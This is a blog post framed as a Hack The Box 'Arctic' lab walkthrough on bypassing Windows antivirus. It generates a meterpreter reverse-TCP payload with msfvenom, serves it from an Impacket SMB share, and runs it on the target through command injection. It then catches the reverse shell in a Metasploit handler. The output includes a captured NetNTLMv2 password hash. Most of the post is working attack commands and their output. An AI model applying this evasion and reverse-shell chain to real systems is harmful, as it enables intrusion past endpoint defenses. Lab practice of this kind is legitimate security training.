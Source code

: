 ```yaml
---
layout: post
title: Bypass AV using Impacket SmbServer
categories:
  - Exploits
---
```



<br>This Topic is really interesting because many people don't know exactly how to bypass common AV in windows machine, if you look at most of the AV these days heuristic detection is off even in the enterprise/Companies because it takes a lot of CPU usage.

<br>And this is where we can utilise this Weak spot, Consider a scenario where we have a RCE, or OS-command Injection on the Web, for this I am taking the HTB Arctic machine, which fit's perfectly for this situation.

<br>Now as we know that machine have AV because of which we couldn't able to exeute a meterpreter payload, and later we created a Ecnrypted meterpreter with veil evasion.
<br>With this method we don't need to encode our meterpreter payload, we just need to set up our Impacket smb server and then run the command which will reqest our payload file and run that in the memory, because heuristic detection is off we can easily Bypass it.

<br>**Poc**
<br>if you have not Done the [Arctic](https://teckk2.github.io/writeup/2017/12/27/Arctic.html) machine, I recomend first follow the steps and reach the step where we have RCE on the web,
<br>first generate the Payload

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.*.*.10 LPORT=4455 -f exe > arctic.exe
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>No encoder or badchars specified, outputting raw payload
<br>Payload size: 341 bytes
<br>Final size of exe file: 73802 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Now Download and Install the [Impacket Server](https://github.com/CoreSecurity/impacket).
<br>And then run it 

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed</p>
</div>
</font>
<br>In this I am using teck as the remote folder name to represent on the server and my file is in /root/Desktop/
<br>Now our SMB server is up and runnig now go to the web page and request for the file with the command **{/c \\10.*.*.10\teck\arctic.exe}**.
<br> ![SMB-Request](https://teckk2.github.io/assets/images/Arctic/17.PNG)
<br>Before you execute the command make sure to set up the meterpreter listner
<br>After executing wait for 30-40 Sec to get the request on the SMB server

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Incoming connection (10.10.10.11,51377)
<br>[*] AUTHENTICATE_MESSAGE (ARCTIC\tolis,ARCTIC)
<br>[*] User tolis\ARCTIC authenticated successfully
<br>[*] <br>tolis::ARCTIC:4141414141414141:2c61717958f1127eca09aa171e1c1d09:01010000000000000065347207f9d30170ad6d3e142ee077000000000100100075005300590056004f006700630067000200100061004c0076004b0078004c0050007a000300100075005300590056004f006700630067000400100061004c0076004b0078004c0050007a00070008000065347207f9d301060004000200000008003000300000000000000000000000003000005f5d2c0dd8d042f2bceefe6e8fb2072d4dd038e23ce10f454d55eee31d91688c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003000000000000000000000000000<p>

</div>
</font>

<br>We got the request Now check our MSF

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
 
<p>msf > use exploit/multi/handler 
<br>msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(multi/handler) > set LHOST 10.*.*.10
<br>LHOST => 10.10.14.10
<br>msf exploit(multi/handler) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(multi/handler) > exploit</p>

<p>[*] Started reverse TCP handler on 10.*.*.10:4455 
<br>[*] Sending stage (179779 bytes) to 10.10.10.11
<br>[*] Meterpreter session 1 opened (10.*.*.10:4455 - 10.10.10.11:51379) at 2018-05-31 13:47:39 -0400</p>

<p>meterpreter > getuid 
<br>Server username: ARCTIC\tolis
<br>meterpreter > shell 
<br>Process 3848 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>whoami
<br>whoami
<br>arctic\tolis</p>

<p>C:\ColdFusion8\runtime\bin> </p>

</div>
</font>


